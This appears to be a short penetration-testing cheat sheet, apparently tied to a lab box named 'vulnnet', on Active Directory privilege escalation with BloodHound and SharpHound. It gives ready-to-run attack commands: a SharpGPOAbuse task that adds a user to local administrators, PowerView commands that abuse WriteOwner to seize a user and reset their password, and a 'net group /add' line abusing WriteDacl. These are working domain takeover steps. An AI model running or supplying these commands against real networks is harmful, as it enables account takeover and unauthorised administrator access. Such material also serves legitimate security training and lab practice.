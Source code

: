 #### Running

```
neo4j console
```

Then Run

```
Bloodhound
```

#### Execute sharphound.exe on the target machine to generate the zip file which you will transfer to your machine and upload to the GUI

Sharphound can be found by cloning the below repo https://github.com/BloodHoundAD/BloodHound

```
.\sharphound.exe
```

#### Transfer SharpGPOAbuse and execute

https://github.com/byronkg/SharpGPOAbuse

```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "GPNAME"

GPNAME: the group policy name to grants access or generic access to the user
```

#### BloodHound OutPut

**WriteOwner**

When another user is shown to have `WriteOwner` permission over another use, it means that this user owns the other user and all its objects including the ability to change its password. Lets say Bob has `WriteOwner` over Alice then we can use `powerview.ps1` to reset Alice password

```powershell
PS .\PowerView.ps1

Set-DomainObjectOwner -identity claire -OwnerIdentity Bob

Add-DomainObjectAcl -TargetIdentity Alice -PrincipalIdentity Bob -Rights ResetPassword

$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force

Set-DomainUserPassword -identity Alice -accountpassword $cred
```

**WriteDacl**

Having `WriteDacl` for a user such as `Bob` over a group such as `Administrator` means that this user `Bob` can be added to that group

```
net group "Administrator" Bob /add /domain   
```
